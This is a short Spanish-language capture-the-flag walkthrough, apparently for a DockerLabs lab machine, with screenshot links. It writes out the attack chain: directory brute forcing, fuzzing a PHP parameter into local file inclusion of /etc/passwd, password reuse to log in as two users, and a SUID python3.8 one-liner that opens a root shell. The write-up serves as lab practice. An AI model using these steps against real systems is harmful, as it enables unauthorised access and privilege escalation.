 nmap:  22,80

![image](https://github.com/user-attachments/assets/eaad09c8-5a05-446f-96cb-e8c76e63dd4f)

en la pagina como en el nmap, vemos que es apache2, en el código fuente no hay nada, hacemos un gobuster

     gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,py,txt -t 64


y nos da in index.php

![image](https://github.com/user-attachments/assets/31191b22-876a-44d3-8876-3e596b67f795)

![image](https://github.com/user-attachments/assets/6ff70d6f-697d-4666-90f8-355f6bbe8d46)

buscamos eso y da solo en la pagina un "balu"

![image](https://github.com/user-attachments/assets/fed9b04c-c1b9-48ad-a9b4-bf5ad959017d)

probé con hydra pero no obtuve nada. Como la carpeta o directorio que nos dio, podemos probar con ffuf

     ffuf -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

y nos dio un: page

![image](https://github.com/user-attachments/assets/030a13f1-9264-48ee-a294-ac3b02cebad3)

y obtenemos

![image](https://github.com/user-attachments/assets/6b8483b6-54ab-4e9d-a79b-f37136262969)

nos dan dos usuarios: pinguino y mario. probamos a los usuarios con la contraseña "balu"

entramos

![image](https://github.com/user-attachments/assets/6e168484-ed12-487a-b28a-a379ec8e0a4b)

y escalamos a mario muy facil

![image](https://github.com/user-attachments/assets/5e88059d-1d92-4c99-b3f9-d1f2bb135098)

utilizamos el comando

     find / -perm -4000 -ls 2>/dev/null

y nos da un binario importante 

![[python1.png]]

la buscamos en https://gtfobins.github.io/gtfobins/python/#sudo

![[python2.png]]

modificamos el python a python3.8 como el binario y lanzamos

     python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![[dockerlabs/facil/patriaquerida/root.png]]

somos root!
